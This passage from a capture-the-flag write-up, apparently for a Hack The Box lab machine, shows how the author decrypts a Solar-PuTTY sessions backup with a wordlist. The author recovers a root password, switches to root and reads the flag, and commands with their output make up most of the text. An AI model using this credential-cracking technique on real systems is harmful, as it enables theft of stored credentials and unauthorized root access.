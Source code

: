 There's a `sessions-backup.dat`, after a search, we can find this script that decrypts solar putty: [script](https://github.com/Dimont-Gattsu/SolarPuttyDecrypterPy)

Let's use it:

```
python decrypt2.py sessions-backup.dat /usr/share/wordlists/rockyou.txt

-----------------------------------------------------
SolarPutty's Sessions Decrypter (Python Version)
-----------------------------------------------------
File content (first 50 bytes): b'ZJlEkpkqLgj2PlzCyLk4gtCfsGO2CMirJoxxdpclYTlEshKzJw'
Trying password: estrellaal
Potential successful decryption with password: estrella
Decrypted content (first 200 bytes):
b'\xacuY\xff\x11\xfbD\xba\xb3\xe2\xc8\x80pB\xbe\xceU\xed;\x8f)\x10\xb5Ins":[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b'
```

Nice, let's read our decrypted file:

```
cat SolarPutty_sessions_decrypted_estrella.bin

[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b-b721-da76cbe8ed04","AuthenticateScript":"00000000-0000-0000-0000-000000000000","LastTimeOpen":"0001-01-01T00:00:00","OpenCounter":1,"SerialLine":null,"Speed":0,"Color":"#FF176998","TelnetConnectionWaitSeconds":1,"LoggingEnabled":false,"RemoteDirectory":""}],"Credentials":[{"Id":"452ed919-530e-419b-b721-da76cbe8ed04","CredentialsName":"instant-root","Username":"root","Password":"12**24nzC!r0c%q12","PrivateKeyPath":"","Passphrase":"","PrivateKeyContent":null}],"AuthScript":[],"Groups":[],"Tunnels":[],"LogsFolderDestination":"C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"}
```

And we got our `root` password, these are the credentials:

```
`root`:`12**24nzC!r0c%q12`
```

We can now switch users:

```
shirohige@instant:/opt/backups/Solar-PuTTY$ su root
Password:
root@instant:/opt/backups/Solar-PuTTY# whoami
root
```

Nice, let's simply read `root.txt`:

```
root@instant:/opt/backups/Solar-PuTTY# cat /root/root.txt
605c2864e2457606e34dbd95472c04e3
```

